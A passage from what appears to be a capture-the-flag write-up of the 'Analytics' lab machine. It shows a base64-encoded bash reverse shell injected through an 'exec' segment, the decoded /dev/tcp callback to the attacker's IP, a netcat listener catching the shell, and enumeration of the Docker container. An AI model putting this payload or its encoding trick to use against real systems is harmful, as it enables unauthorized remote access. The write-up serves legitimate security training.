 ![](Images/burp1.png)
Payload is within the `exec` segment: `bash -c {echo,YmFzaCAtaSA+JiAvZGV2L3RjcC8xMC4xMC4xNC4xOTEvODg4OCAwPiYx}|{base64,-d}|{bash,-i}` The base64 encoded string refers to a basic rev shell: `bash -i >& /dev/tcp/10.10.14.191/8888 0>&1` Using the base64 in this way will avoid errors from special characters such as > and &.
On my netcat listener:
```
┌──(kali㉿kali)-[~/Documents/Analytics]
└─$ nc -nvlp 8888         
listening on [any] 8888 ...
connect to [10.10.14.191] from (UNKNOWN) [10.10.11.233] 51222
bash: cannot set terminal process group (1): Not a tty
bash: no job control in this shell
2c83a4df89a6:/$ 
```
### Enumerating docker container
We can find out rather quickly that this is a docker container, based on the `.dockerenv` file:
```
2c83a4df89a6:/$ ls -al
ls -al
total 92
drwxr-xr-x    1 root     root          4096 Oct  5 21:44 .
drwxr-xr-x    1 root     root          4096 Oct  5 21:44 ..
-rwxr-xr-x    1 root     root             0 Oct  5 21:44 .dockerenv
drwxr-xr-x    1 root     root          4096 Jun 29 20:40 app
drwxr-xr-x    1 root     root          4096 Jun 29 20:39 bin
drwxr-xr-x    5 root     root           340 Oct  5 21:44 dev
drwxr-xr-x    1 root     root          4096 Oct  5 21:44 etc
drwxr-xr-x    1 root     root          4096 Aug  3 12:16 home
drwxr-xr-x    1 root     root          4096 Jun 14 15:03 lib
drwxr-xr-x    5 root     root          4096 Jun 14 15:03 media
drwxr-xr-x    1 metabase metabase      4096 Aug  3 12:17 metabase.db
drwxr-xr-x    2 root     root          4096 Jun 14 15:03 mnt
drwxr-xr-x    1 root     root          4096 Jun 15 05:12 opt
drwxrwxrwx    1 root     root          4096 Aug  7 11:10 plugins
dr-xr-xr-x  212 root     root             0 Oct  5 21:44 proc
drwx------    1 root     root          4096 Aug  3 12:26 root
drwxr-xr-x    2 root     root          4096 Jun 14 15:03 run
```